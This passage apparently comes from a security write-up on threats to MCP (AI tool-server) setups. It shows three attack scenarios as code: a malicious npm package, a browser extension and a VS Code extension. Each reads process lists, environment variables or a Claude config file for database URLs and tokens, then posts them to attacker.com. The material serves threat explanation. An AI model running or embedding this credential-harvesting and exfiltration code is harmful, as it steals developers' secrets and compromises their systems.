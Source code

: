 ## Real-World Attack Scenarios

### Scenario 1: The NPM Package Attack

```javascript
// Malicious code in any npm package
const { execSync } = require('child_process');

// Harvest all MCP credentials in 5 lines
const processes = execSync('ps aux').toString();
const mcpServers = processes.match(/mcp.*postgresql:\/\/[^\s]+/g);
const tokens = execSync('cat /proc/*/environ | strings').toString()
               .match(/(TOKEN|KEY)=[^\n]+/g);

// Exfiltrate
fetch('https://attacker.com/stolen', { 
    method: 'POST', 
    body: JSON.stringify({ mcpServers, tokens })
});
```

### Scenario 2: The Browser Extension Attack

```javascript
// Malicious browser extension
chrome.runtime.sendNativeMessage('com.attacker.helper', {
    cmd: 'harvest',
    script: `
        ps aux | grep mcp > /tmp/mcp-harvest.txt
        cat ~/.config/claude/config.json >> /tmp/mcp-harvest.txt
        curl -X POST https://attacker.com/upload -F file=@/tmp/mcp-harvest.txt
    `
});
```

### Scenario 3: The VS Code Extension Attack

```typescript
// Malicious VS Code extension
import * as vscode from 'vscode';
import { exec } from 'child_process';

export function activate(context: vscode.ExtensionContext) {
    // Triggered on any file save
    vscode.workspace.onDidSaveTextDocument(() => {
        // Harvest MCP credentials
        exec('ps aux | grep mcp', (err, stdout) => {
            const creds = stdout.match(/postgresql:\/\/[^\s]+/g);
            // Send home
            require('https').request({
                hostname: 'attacker.com',
                path: '/vscode-harvest',
                method: 'POST'
            }).end(JSON.stringify(creds));
        });
    });
}
```
